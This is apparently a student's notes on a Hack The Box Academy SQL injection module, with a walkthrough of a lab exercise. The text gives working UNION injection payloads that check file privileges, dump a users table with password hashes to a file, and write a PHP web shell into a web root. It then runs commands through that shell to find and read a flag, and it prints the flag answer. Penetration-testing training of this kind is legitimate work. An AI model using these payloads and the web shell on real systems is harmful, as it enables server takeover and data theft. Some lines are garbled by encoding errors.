 ﻿---
sticker: lucide//database
---
When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

---

## Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with`FILE` privilege enabled
2. MySQL global`secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We have already found that our current user has the`FILE` privilege necessary to write files. We must now check if the MySQL database has that privilege. This can be done by checking the`secure_file_priv` global variable.

#### secure_file_priv

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand,`NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the`FILE` privilege. However,`MySQL` uses`/var/lib/mysql-files` as the default folder. This means that reading files through a`MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to`NULL`, meaning that we cannot read/write files anywhere within the system.

So, let's see how we can find out the value of`secure_file_priv`. Within`MySQL`, we can use the following query to obtain the value of this variable:


```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

However, as we are using a`UNION` injection, we have to get the value using a`SELECT` statement. This shouldn't be a problem, as all variables and most configurations' are stored within the`INFORMATION_SCHEMA` database.`MySQL` global variables are stored in a table called [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns`variable_name` and`variable_value`.

We have to select these two columns from that table in the`INFORMATION_SCHEMA` database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then filter the results to only show the`secure_file_priv` variable, using the`WHERE` clause we learned about in a previous section.

The final SQL query is the following:

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So, similar to other`UNION` injection queries, we can get the above query result with the following payload. Remember to add two more columns`1` &`4` as junk data to have a total of 4 columns':

\
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

And the result shows that the`secure_file_priv` value is empty, meaning that we can read/write files to any location.

---

## SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the`SELECT .. INTO OUTFILE` statement. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add`INTO OUTFILE '...'` after our query to export the results into the file we specified. The below example saves the output of the`users` table into the`/tmp/credentials` file:


```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server and`cat` the file, we see that table's content:


```shell-session
smoothment@htb[/htb]$ cat /tmp/credentials 

1 admin 392037dbba51f692776d6cefb6dd546d
2 newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly`SELECT` strings into files, allowing us to write arbitrary files to the back-end server.


```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

When we`cat` the file, we see that text:

```shell-session
smoothment@htb[/htb]$ cat /tmp/test.txt 

this is a test
```


```shell-session
smoothment@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul 8 06:20 /tmp/test.txt
```

As we can see above, the`test.txt` file was created successfully and is owned by the`mysql` user.

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

---

## Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write`file written successfully!` to the`/var/www/html/proof.txt` file, which we can then access on the web application:


```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use`load_file` to read the server configuration, like Apache's configuration found at`/etc/apache2/apache2.conf`, Nginx's configuration at`/etc/nginx/nginx.conf`, or IIS configuration at`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

The`UNION` injection payload would be as follows:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

We donâ€™t see any errors on the page, which indicates that the query succeeded. Checking for the file`proof.txt` in the webroot, we see that it indeed exists:

 ![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

---

## Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:


```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous`UNION` injection payload, and change the string to the above, and the file name to`shell.php`:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

 ', â€œ â€œ, â€œ â€œ into outfile '/var/www/html/shell.php'-- -'>

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the`/shell.php` file and executing commands via the`0` parameter, with`?0=id` in our URL:
 ![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

The output of the`id` command confirms that we have code execution and are running as the`www-data` user.

# Question
---

![Pasted image 20250203154637.png](../../../../IMAGES/Pasted%20image%2020250203154637.png)

We can submit the following in order to get the webshell:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Now, we can go to `/shell.php` in the following way:

```r
http://83.136.248.110:40014/shell.php?0=id
```

![Pasted image 20250203154803.png](../../../../IMAGES/Pasted%20image%2020250203154803.png)

Now we got ourselves a webshell, let's try to look around for a flag, we can do this by using:

```r
find / -name '*.txt
```

We need to use URL encoding so:

```r
find+/+-name+'*.txt'+2>/dev/null
```

We'll see the following output:

![Pasted image 20250203155314.png](../../../../IMAGES/Pasted%20image%2020250203155314.png)

Flag is located at `/var/www/flag.txt`, let's read it using:

```
cat+/var/www/flag.txt
```

![Pasted image 20250203155402.png](../../../../IMAGES/Pasted%20image%2020250203155402.png)


Got the flag: `d2b5b27ae688b6a0f1d21b7d3a0798cd `
